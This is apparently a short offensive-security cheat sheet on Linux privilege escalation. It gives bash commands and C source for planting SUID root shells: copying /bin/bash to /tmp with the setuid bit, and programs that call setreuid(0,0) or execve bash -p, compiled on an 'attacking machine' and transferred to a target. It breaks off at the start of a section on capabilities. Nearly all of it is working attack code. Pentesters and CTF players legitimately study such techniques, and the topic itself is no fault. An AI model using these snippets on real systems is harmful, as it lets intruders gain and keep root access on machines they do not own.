## Creating a SUID shell (bash)

We can copy the bash file to temp and give it SUID permissions.

```bash
cp /bin/bash /tmp/bash
chmod u+s /tmp/bash

/tmp/bash -p
```

## Creating a SUID file (c)

```c
#include <unistd.h>
int main()
{
    setreuid(0,0);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

## Creating a SUID shell (C)

We can write the following C code in order to obtain a bash shell:

```c
#include <stdio.h>
#include <unistd.h>

int main (void) {
    char *argv[] = { "/bin/bash", "-p", NULL };
    execve(argv[0], argv, NULL);
}
```

We just need to compile and give SUID permissions from root in our attacking machine.

```bash
gcc -m32 shell.c -o shell
root@kali $ chmod +s shell
```

Finally we need to transfer the file with the command execution.

```bash
/tmp/shell -p
```

# Capabilities

Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.
